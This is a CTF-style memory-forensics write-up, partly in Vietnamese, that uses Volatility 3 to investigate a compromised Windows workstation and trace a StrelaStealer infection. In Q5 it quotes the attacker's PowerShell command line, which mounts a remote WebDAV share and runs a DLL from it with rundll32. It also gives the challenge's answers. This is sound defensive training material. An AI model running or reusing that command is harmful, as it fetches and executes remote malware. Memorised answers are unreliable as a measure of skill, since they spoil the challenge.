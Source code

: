 # Reveal 

> As a cybersecurity analyst for a leading financial institution, an alert from your SIEM solution has flagged unusual activity on an internal workstation. Given the sensitive financial data at risk, immediate action is required to prevent potential breaches.

> Your task is to delve into the provided memory dump from the compromised system. You need to identify basic Indicators of Compromise (IOCs) and determine the extent of the intrusion. Investigate the malicious commands or files executed in the environment, and report your findings in detail to aid in remediation and enhance future defenses.

> Tools:
   Volatility 3

> .mem: Định dạng tùy chỉnh, thường dùng trong phân tích bộ nhớ với các công cụ như Volatility.

> .dmp: Định dạng phổ biến hơn, thường được hệ điều hành tạo ra khi có sự cố, và dùng trong phân tích sự cố và điều tra kỹ thuật số.

> volatility là công cụ để phân tích bộ nhớ có thể trích xuất chi tiết thông tin từ file dump hoặc file mem

         Phân Tích Tiến Trình:

    pslist: Liệt kê các tiến trình đang chạy.
    pstree: Hiển thị cây tiến trình.
    psscan: Tìm tiến trình ẩn hoặc đã bị giết.
    cmdline: Hiển thị dòng lệnh khởi động tiến trình.
    dlllist: Liệt kê các DLL được nạp.

      Phân Tích Mạng:
      
          netscan: Liệt kê kết nối mạng, socket, và cổng.
          connscan: Tìm kết nối mạng bị ẩn.
      
      Phân Tích Registry:
      
          printkey: Trích xuất nội dung của một key Registry.
          hivelist/hivescan: Liệt kê và quét các registry hive.
      
      Phân Tích File và Module:
      
          filescan: Tìm file trong bộ nhớ.
          modscan: Tìm các module kernel.
          handles: Hiển thị các handle mở.
      
      Phân Tích Bộ Nhớ Vật Lý:
      
          memmap: Hiển thị ánh xạ bộ nhớ của tiến trình.
          vaddump/pagedump: Trích xuất bộ nhớ ảo và các trang bộ nhớ.
      
      Phân Tích Malware:
      
          malfind: Phát hiện và trích xuất mã độc.
          apihooks: Phát hiện API bị hook.
          yarascan: Quét mã độc bằng YARA rules.
      
      Phân Tích Crash Dumps:
      
          crashinfo: Phân tích và hiển thị thông tin từ crash dump.
      
      Phân Tích Tài Liệu và Khóa:
      
          hashdump/lsadump: Trích xuất hash mật khẩu và secret.
          clipboard: Trích xuất nội dung clipboard.
      
      Phân Tích Bộ Nhớ Kernel:
      
          modules: Liệt kê các module kernel.
          driverirp: Phân tích bảng IRP của driver.
          ssdt: Hiển thị bảng SSDT, phát hiện hook kernel.
      
      Phân Tích Giao Diện Người Dùng:
      
          windows: Liệt kê các cửa sổ GUI.
          deskscan: Quét để tìm desktop và cửa sổ bị ẩn.
      
      Phân Tích Hệ Thống Tập Tin:
      
          mftparser: Phân tích Master File Table (MFT).
          timeliner: Tạo dòng thời gian các sự kiện.
      
      Phân Tích Hệ Thống Tạm Thời:
      
          iehistory/chromehistory: Trích xuất lịch sử duyệt web từ IE và Chrome.

## Q1: Identifying the name of the malicious process helps in understanding the nature of the attack. What is the name of the malicious process?

+ đầu tiên ta sẽ phân tích nguồn của file thuộc os nào => file file.dmp

  ![image](https://github.com/user-attachments/assets/920c58e6-bae8-4980-ba9e-a7883f7240a3)

+ tiếp theo ta có thể list thông tin tiến trình của hệ thống bằng câu lệnh windows.pslist 

+ để phát hiện trích xuất mã độc ta sẽ dùng plugin windows.malfind

![image](https://github.com/user-attachments/assets/0c06cb2c-37fa-4f1f-91d3-6a12d0327722)

=> process powershell có vẻ đang add 1 số value vào memory , powershell PAGE_EXECUTE_READWRITE quyền này có thể chứa dữ liệu hoặc mã đang được thực thi

=> Anwser: powershell.exe

## Q2: Knowing the parent process ID (PID) of the malicious process aids in tracing the process hierarchy and understanding the attack flow. What is the parent PID of the malicious process?

+ như câu hỏi trên ta list được ppid của powershell => windows.pslist

   ![image](https://github.com/user-attachments/assets/55b10e01-db8f-4174-8fd9-a39fa1c122d0)

=> Anwser: 4120

## Q3: Determining the file name used by the malware for executing the second-stage payload is crucial for identifying subsequent malicious activities. What is the file name that the malware uses to execute the second-stage payload?

+ xác định được malware execute ta sẽ sử dụng : vol -f file.dmp windows.cmdline --pid 3692

  ![image](https://github.com/user-attachments/assets/c237dcb7-f3a2-4f17-90b5-a47cc53f2c12)

=> có 1 file dll đang ở dir \davwwwroot

=> Anwser: 3435.dll

## Q4: dentifying the shared directory on the remote server helps trace the resources targeted by the attacker. What is the name of the shared directory being accessed on the remote server?

+ như bài trên ta có thể xác định được remote directory có chứa file dll

  => Anwser: davwwwroot

## Q5: What is the MITRE sub-technique ID used by the malware to execute the second-stage payload?

+ Từ câu 3, ta có thể thấy rằng đối số dòng lệnh của quy trình độc hại, powershell.exe, là “powershell.exe -windowstyle Hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundl32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry.” Do đó, hoạt động chính ở đây là sử dụng rundll32.exe để tải và thực thi một DLL từ một vị trí từ xa, ánh xạ trực tiếp tới kỹ thuật MITER ATT&CK T1218.011

=> Anwser : T1218.011

## Q6: Identifying the username under which the malicious process runs helps in assessing the compromised account and its potential impact. What is the username that the malicious process runs under?

+ Windows theo dõi các chương trình bạn chạy bằng tính năng trong sổ đăng ký có tên là khóa UserAssist. Các phím này ghi lại số lần mỗi chương trình được thực thi và thời điểm nó được chạy lần cuối

        vol -f file.dmp userassist

![image](https://github.com/user-attachments/assets/ef073c97-d969-4105-aff4-dcc04756154c)

=> Anwser: elon 

## Q7: Knowing the name of the malware family is essential for correlating the attack with known threats and developing appropriate defenses. What is the name of the malware family?

+ xác định địa chỉ ip remote là 45.9.74.32

  ![image](https://github.com/user-attachments/assets/282195e3-445f-41ee-a49a-0debffe3069a)

=> Anwser: STRELASTEALER

